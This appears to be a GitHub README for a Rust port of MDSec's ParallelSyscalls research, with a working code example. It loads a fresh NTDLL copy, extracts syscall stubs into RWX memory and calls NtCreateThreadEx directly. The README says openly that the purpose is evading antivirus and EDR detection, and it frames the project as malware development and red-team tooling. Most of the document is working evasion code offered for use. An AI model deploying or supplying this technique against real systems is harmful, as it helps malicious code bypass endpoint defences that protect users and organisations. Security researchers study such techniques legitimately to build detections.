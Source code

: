 # ParallelSyscalls

Rust version of MDSec's ParallelSyscalls research: https://github.com/mdsecactivebreach/ParallelSyscalls/ and https://www.mdsec.co.uk/2022/01/edr-parallel-asis-through-analysis/

This code can be used to load a fresh copy of `NTDLL.dll` using system calls and extract system calls from the fresh copy of `NTDLL.dll` to call any Win32 API function of your choice. This may allow you to evade AV/EDR detections. Please note that the syscall stubs are allocated using `RWX` memory created using `VirtualAlloc()`, which is not optimal from an OPSEC perspective.


## Why Rust?

Why not? Rust is awesome! A low-level statically (compiled) and strongly typed systems programming language that is faster than C/C++, allowing you to achieve memory safety concurrency and perform low-level tasks writing high-level code with an excellent compiler, community and documentation. I have moved away from my old favourite languages C/C++/C#, and started my new Rusty adventure.

This project has allowed me to learn about Rust Windows Internals and enhance my red teaming skills. I'm relatively new to Rust, but I firmly believe Rust is the future for robust programs, red teaming and malware development.

![ntdlll](./ntdll.png)

## Example

1. Import the "parallel_syscalls" library
2. Create a function pointer type such as `NtCreateThreadEx` https://docs.rs/ntapi/0.3.6/ntapi/ntpsapi/fn.NtCreateThreadEx.html
3. Call the function `gimme_the_loot("ntdll.dll")` to load a fresh copy of NTDLL using MDSec's ParallelSyscalls technique
4. Call the function `get_function_address(ptr_ntdll, "NtCreateThreadEx")` and pass in NTDLL's base address and the function's system call number you want to retrieve
5. Call `VirtualAlloc` with `PAGE_EXECUTE_READWRITE` to allocate memory for the syscall stub (note that this is not optimal from an OPSEC perspective)
6. Call `build_syscall_stub(syscall_region as *mut c_void, syscall_nt_create_thread_ex as u32)` and pass the memory region and the address of the function to copy the syscall stub inside the allocated memory region.
7. Call `transmute::<_, NtCreateThreadEx>(nt_create_thread_ex)` to turn a pointer into a function pointer`
8. Call the function as you would normally `syscall_nt_create_thread_ex(&mut thread_handle, GENERIC_ALL, null_mut(), GetCurrentProcess(), null_mut(), null_mut(), 0, 0, 0, 0, null_mut())`
9. Profit \x90

```rust
use std::{ptr::null_mut, intrinsics::transmute};
use ntapi::ntpsapi::PPS_ATTRIBUTE_LIST;
use winapi::{um::{memoryapi::VirtualAlloc, winnt::{ACCESS_MASK, GENERIC_ALL, MEM_RESERVE, MEM_COMMIT, PAGE_EXECUTE_READWRITE}, processthreadsapi::GetCurrentProcess}, shared::{ntdef::{PHANDLE, POBJECT_ATTRIBUTES, HANDLE, PVOID, NTSTATUS, NT_SUCCESS}, minwindef::ULONG, basetsd::SIZE_T}, ctypes::c_void};

mod parallel_syscalls;

// Function to call
type NtCreateThreadEx = unsafe extern "system" fn(
    ThreadHandle: PHANDLE, 
    DesiredAccess: ACCESS_MASK, 
    ObjectAttributes: POBJECT_ATTRIBUTES, 
    ProcessHandle: HANDLE, 
    StartRoutine: PVOID, 
    Argument: PVOID, 
    CreateFlags: ULONG, 
    ZeroBits: SIZE_T, 
    StackSize: SIZE_T, 
    MaximumStackSize: SIZE_T, 
    AttributeList: PPS_ATTRIBUTE_LIST
) -> NTSTATUS;

const MAX_SYSCALL_STUB_SIZE: u32 = 64;

fn main() {

    // Dynamically get the base address of a fresh copy of ntdll.dll using mdsec's technique
    let ptr_ntdll = parallel_syscalls::gimme_the_loot("ntdll");

    if ptr_ntdll.is_null() {
        panic!("Pointer to ntdll is null");
    }

    //get function address
    let syscall_nt_create_thread_ex = parallel_syscalls::get_function_address(ptr_ntdll, "NtCreateThreadEx");

    // Allocate memory for the system call (not optimal from opsec perspective)
    let syscall_region = unsafe { VirtualAlloc(null_mut(), MAX_SYSCALL_STUB_SIZE as usize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE) as usize };

    if syscall_region == 0 {
        panic!("Failed to allocate memory using VirtualAlloc in main");
    }


    let nt_create_thread_ex = unsafe { parallel_syscalls::build_syscall_stub(syscall_region as *mut c_void, syscall_nt_create_thread_ex as u32) };
    
    // Example
    unsafe {
        let syscall_nt_create_thread_ex = transmute::<_, NtCreateThreadEx>(nt_create_thread_ex);
        let mut thread_handle : *mut c_void = null_mut();

        let status = syscall_nt_create_thread_ex(&mut thread_handle, GENERIC_ALL, null_mut(), GetCurrentProcess(), null_mut(), null_mut(), 0, 0, 0, 0, null_mut());

        if !NT_SUCCESS(status) {
            panic!("Failed to call NtCreateThreadEx");
        }

        println!("[+] Thread Handle: {:?} and Status: {:?}", thread_handle, status);
    }
}
```


## References

* https://www.mdsec.co.uk/2022/01/edr-parallel-asis-through-analysis/
* https://github.com/mdsecactivebreach/ParallelSyscalls/
* https://github.com/cube0x0/ParallelSyscalls/
* https://github.com/frkngksl/ParallelNimcalls/
* https://doc.rust-lang.org/book/
* https://github.com/microsoft/windows-rs
* https://crates.io/crates/ntapi
* https://crates.io/crates/winapi
* https://crates.io/crates/bstr
* https://twitter.com/MrUn1k0d3r (MrUn1k0d3r's Discord community)
* https://github.com/felix-rs/ntcall-rs/
* https://github.com/Kudaes/DInvoke_rs
* https://github.com/kmanc/remote_code_oxidation
* https://github.com/zorftw/kdmapper-rs
* https://github.com/trickster0/OffensiveRust
* https://twitter.com/rustlang - (Rust Community Discord: Nick12#9400, B3NNY#8794, MaulingMonkey#1444, Zuix#4359, WithinRafael#7014, Jess Gaming#8850 and many more)



